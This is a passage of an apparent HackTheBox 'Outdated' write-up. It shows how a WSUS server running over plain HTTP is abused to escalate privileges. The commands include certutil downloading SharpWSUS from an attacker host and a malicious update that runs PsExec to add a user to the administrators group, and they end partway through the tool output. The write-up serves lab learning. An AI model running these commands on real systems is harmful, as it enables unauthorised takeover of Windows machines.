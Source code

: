 checking further on registry keys 
```bash
reg query HKLM\Software\Policies\Microsoft\Windows\WindowsUpdate /v WUServer

HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\WindowsUpdate
    WUServer    REG_SZ    http://wsus.outdated.htb:8530
```
the wsus server is indeed http and not https
```bash
reg query HKLM\Software\Policies\Microsoft\Windows\WindowsUpdate\AU /v UseWUServer

HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\WindowsUpdate\AU
    UseWUServer    REG_DWORD    0x1
```
and the UseWUServer is 1, so it's turned on

### Exploiting WSUS
We'll be using SharpWSUS
[SharpWSUS](https://github.com/nettitude/SharpWSUS.git)  
[PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#wsus-deployment)  
Once again I downloaded that on a windows VM with Visual Studio, and attempted to compile it into a dotnet binary. But this approach didn't work for me cause this is a .NET Framework 4.0 project, and I can't get that for the version and CPU architecture that I'm running Visual Studio on...
So I'm extracting that from the 
[S3cur3Th1sSh1t](https://github.com/S3cur3Th1sSh1t/PowerSharpPack/blob/master/PowerSharpBinaries/Invoke-SharpWSUS.ps1) repo.

```bash
wget https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSharpPack/master/PowerSharpBinaries/Invoke-SharpWSUS.ps1
# Deleted everything but the base64 payload from the file then:
cat Invoke-SharpWSUS.ps1 |base64 -d > SharpWSUS.gz
gunzip SharpWSUS.gz
file SharpWSUS                                        
SharpWSUS: PE32 executable (console) Intel 80386 Mono/.Net assembly, for MS Windows
mv SharpWSUS{,.exe}
```

upload sharpWSUS on the machine
```bash
certutil.exe -urlcache -f http://10.10.14.15:8000/SharpWSUS.exe SharpWSUS.exe
```

make an update that will add sflowers to the administrators group
```bash
./SharpWSUS.exe create /payload:"C:\Users\sflowers\Desktop\PsExec64.exe" /args:"-accepteula -s -d cmd.exe /c \"net localgroup administrators sflowers /add\""

 ____  _                   __        ______  _   _ ____
/ ___|| |__   __ _ _ __ _ _\ \      / / ___|| | | / ___|
\___ \| '_ \ / _` | '__| '_ \ \ /\ / /\___ \| | | \___ \
 ___) | | | | (_| | |  | |_) \ V  V /  ___) | |_| |___) |
|____/|_| |_|\__,_|_|  | .__/ \_/\_/  |____/ \___/|____/
                       |_|
           Phil Keeble @ Nettitude Red Team

[*] Action: Create Update
[*] Creating patch to use the following:
[*] Payload: PsExec64.exe
[*] Payload Path: C:\Users\sflowers\Desktop\PsExec64.exe
[*] Arguments: -accepteula -s -d cmd.exe /c \net
[*] Arguments (HTML Encoded): -accepteula -s -d cmd.exe /c \net

################# WSUS Server Enumeration via SQL ##################
ServerName, WSUSPortNumber, WSUSContentLocation
```
